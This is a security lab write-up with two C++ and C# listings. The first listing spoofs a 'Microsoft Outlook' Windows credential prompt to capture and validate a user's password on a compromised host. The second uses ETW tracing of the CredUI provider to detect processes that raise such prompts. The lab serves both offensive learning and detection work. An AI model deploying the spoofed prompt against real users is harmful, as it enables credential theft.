

# Credentials Collection via CredUIPromptForCredentials

## Purpose

The purpose of this lab is to twofold:

1. write some code that invokes Windows credential prompt, that would allow malware or an attacker to collect targeted user's credentials once they are on the compromised machine
2. write some ETW code that detects processes invoking credential prompts

## Stealing User Credentials

It is possible to collect user credentials with the below code:


```cpp
#include <iostream>
#include <Windows.h>
#include <wincred.h>

#pragma comment(lib, "Credui.lib")

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	CREDUI_INFO ci = { sizeof(ci) };
	std::wstring promptCaption = L"Microsoft Outlook";
	std::wstring promptMessage = L"Connecting to spotless@offense.local";
	ci.pszCaptionText = (PCWSTR)promptCaption.c_str();
	ci.pszMessageText = (PCWSTR)promptMessage.c_str();

	WCHAR username[255] = {};
	WCHAR password[255] = {};
	DWORD result = 0;

	result = CredUIPromptForCredentialsW(&ci, L".", NULL, 5, username, 255, password, 255, FALSE, CREDUI_FLAGS_GENERIC_CREDENTIALS);
	if (result == ERROR_SUCCESS)
	{
		HANDLE newToken = NULL;
		BOOL credentialsValid = FALSE;

		credentialsValid = LogonUserW(username, NULL, password, LOGON32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &newToken);
		if (credentialsValid)
		{
			// valid credentials provided
		}
		else
		{
			// invalid credentials provided
		}
	}
	else if (result == ERROR_CANCELLED)
	{
		// no credentials provided
	}

	return 0;
}
```



Although in this lab I am using `CredUIPromptForCredentials` for invoking credentials prompt, you should be using  [`CredUIPromptForWindowsCredentials`](https://docs.microsoft.com/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa)


If we compile and run the above code, we get a credential prompt, that captures user's credentials in plain text, which we could then save to a file or send out over the internet:



The above credential prompt can also be invoked with  PowerShell cmdlet `Get-Credential`.


## Detecting Credential Prompts

As a defender, one may want to know what processes are popping these credential prompts, so that malicious ones could be detected - i.e if you are notified that suddenly some unusual process showed a prompt, it may mean that the process is infected and the machine is compromised.

Detection of programs showing credential prompts is possible with [Event Tracing for Windows \(EWT\)](../../miscellaneous-reversing-forensics/windows-kernel-internals/etw-event-tracing-for-windows-101.md#terminology) - Microsoft-Windows-CredUI provider to the rescue:


Looking at the provider Microsoft-Windows-CredUI in ETWExplorer, we can see that it can provide consumers with events for both `CredUIPromptForCredentials` and `CredUIPromptForWindowsCredentials` invokations:


We can create an ETW tracing session and subscribe to events from Microsoft-Windows-CredUI provider with C\# like so:


```csharp
# based on https://github.com/zodiacon/DotNextSP2019/blob/master/SimpleConsumer/Program.cs
using Microsoft.Diagnostics.Tracing.Session;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace SimpleConsumer
{
    static class Programa
    {
        static void Main(string[] args)
        {
            using (var session = new TraceEventSession("spotless-credential-prompt"))
            {
                Console.CancelKeyPress += delegate {
                    session.Source.StopProcessing();
                    session.Dispose();
                };

                session.EnableProvider("Microsoft-Windows-CredUI", Microsoft.Diagnostics.Tracing.TraceEventLevel.Always);
                var parser = session.Source.Dynamic;
                parser.All += e => {
                    if (e.OpcodeName == "Start")
                    {
                        Console.WriteLine($"{e.TimeStamp} > Credential Prompt detected in {Process.GetProcessById(e.ProcessID).ProcessName}.exe (PID={e.ProcessID})");
                    }
                };
                session.Source.Process();
            }
        }
    }
}
```


## Demo

Below shows RogueCredentialsPrompt.exe and Powershell.exe invoking Windows credential prompts and our simple consumer program detecting that activity:



## References







